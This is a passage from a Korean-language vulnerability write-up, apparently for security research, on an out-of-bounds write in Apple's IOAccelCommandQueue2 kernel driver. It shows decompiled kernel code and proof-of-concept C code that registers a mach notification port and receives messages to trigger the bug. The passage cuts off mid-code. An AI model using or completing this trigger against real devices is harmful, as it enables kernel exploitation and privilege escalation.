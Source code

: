 ```cpp
            v10 = *(unsigned int *)&this->gap2[11];
            RegistryEntryID = IORegistryEntry::getRegistryEntryID((IORegistryEntry *)this->graphicsAccelerator2);
            j__kernel_debug_10(0x85020080, pid, cq_id, v10, RegistryEntryID, 0);
            ...
          }
          **IOAccelCommandQueue2::submit_command_buffer(
            this,
            args->command[idx].kcmd_shmem,
            args->command[idx].seglist_shmem,
            *(_QWORD *)&args->command[idx].notify_1,
            *(_QWORD *)&args->command[idx].notify_2);**
          ++idx;
        }
        while ( idx < args->count );
      }
      v18 = this->graphicsAccelerator2;
      *(_DWORD *)&v18[21].gap8[72] = this->pid;
      IOGraphicsAccelerator2::enable_gart_collector((__int64)v18);
      ret = 0;
    ...
  }
  return ret;
}
```

## 3. OOB Write 트리거시키기

앞서 `IOAccelCommandQueue2::submit_command_buffers`를 호출하기 전에 `IOAccelCommandQueue2::set_notification_port`를 먼저 호출해야 한다.

`mach_port_allocate`로 **수신용(mach receive) 포트인** `notification_port`를 만든 뒤, 그 포트를   `set_notification_port` 함수에 전달하여 호출하여 비동기 알림 포트를 등록한다.

마지막으로, `pthread_create`로 비동기적으로 스레드를 띄워 `mach_msg` 함수로 알림을 계속 받게끔 한다.

```cpp
static void
IOAccelCommandQueue2_set_notification_port(io_connect_t IOAccelCommandQueue2, mach_port_t notification_port) {
	kern_return_t kr = IOConnectCallAsyncMethod(IOAccelCommandQueue2,
			IOAccelCommandQueue2_set_notification_port_selector,
			notification_port,
			NULL, 0,
			NULL, 0,
			NULL, 0,
			NULL, NULL,
			NULL, NULL);
	assert(kr == KERN_SUCCESS);
}

...

static void *
notification_recv_func(void *arg) {
	mach_port_t notification_port = (mach_port_t)(uintptr_t)arg;
	for (;;) {
		struct {
			mach_msg_header_t hdr;
			uint8_t data[0x4000];
		} msg = {};
		kern_return_t kr = mach_msg(&msg.hdr, MACH_RCV_MSG, 0,
				sizeof(msg), notification_port,
				MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
```